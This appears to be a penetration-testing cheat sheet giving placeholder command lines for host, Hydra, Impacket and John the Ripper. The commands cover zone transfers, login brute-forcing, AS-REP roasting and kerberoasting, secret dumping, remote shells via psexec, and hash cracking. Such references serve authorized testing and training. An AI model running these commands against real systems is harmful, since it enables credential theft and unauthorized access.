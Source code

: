 
HOST
----
# request name server for domain
host -t ns url_here

# zone transfer
host -l url_here name_server_here


HYDRA
-----
# dictionary attack
hydra -L users.txt -P passwords.txt <protocol://IP_here> <options>
hydra -l user_name_here -P /path/to/wordlist <protocol://IP_here> <options>

# dictionary attack - web form
hydra l user_name_here -p /path/to/wordlist url_here http-form-post "/path/to/login/form:user_name_param=^USER^&password_param=^PASS^&submit=Login:error_message_upon_failed_login_here"


IMPACKET
--------
# get TGT for users with UF_DONT_REQUIRE_PREAUTH
/path/to/impacket/examples/GetNPUsers.py domain/ -usersfile /path/to/users.txt -no-pass -outputfile /path/to/tgt.txt

# dump secrets as user
/path/to/impacket-secretsdump -dc-ip IP_here user:password@IP_here

# kerberoasting : gather NTLM hashes
/path/to/impacket/examples/GetUserSPNs.py -request -dc-ip IP_here domain/user

# gather domain usernames
/path/to/impacket/GetADUsers.py -all -dc-ip IP_here domain/user

# get shell as user
/path/to/impacket/psexec.py domain/user@IP_here


JOHN
----
# crack password hash - dictionary attack
john -w=/path/to/wordlist /path/to/hash
